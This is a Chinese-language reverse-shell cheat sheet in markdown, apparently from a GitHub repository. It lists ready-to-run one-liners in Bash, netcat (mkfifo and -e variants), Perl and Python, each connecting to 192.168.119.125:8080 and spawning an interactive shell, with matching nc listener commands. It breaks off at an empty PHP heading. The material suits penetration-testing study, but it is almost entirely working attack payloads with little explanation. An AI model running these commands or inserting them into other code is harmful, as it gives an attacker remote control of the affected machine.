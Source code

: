 # Reverse Shell

reverse shell的cheat sheet



### shell的集合

https://www.revshells.com/

### Bash

```bash
bash -i >& /dev/tcp/192.168.119.125/8080 0>&1
 
bash -c "bash -i >& /dev/tcp/192.168.119.125/8080 0>&1"
```

```bash
nc -nvlp 8080
```



### NC

-e不可用时候

```bash
rm -f /tmp/d; mkfifo /tmp/d; /bin/sh -c "cat /tmp/d | /bin/sh -i 2>&1 | nc 192.168.119.125 8080 > /tmp/d"
 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.125 8080 >/tmp/f
```

-e 可用

```bash
nc -e /bin/sh 192.168.119.125 8080
```

```bash
nc -nvlp 8080
```



### Perl

```perl
perl -e 'use Socket;$i="192.168.119.125";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.119.125:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```bash
nc -nvlp 8080
```



### Python

python3 以及python2都可用

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.125",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.125",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

另外的形式 2/3都可用

```python
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.119.125',8080))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```

```bash
nc -nvlp 8080
```



### php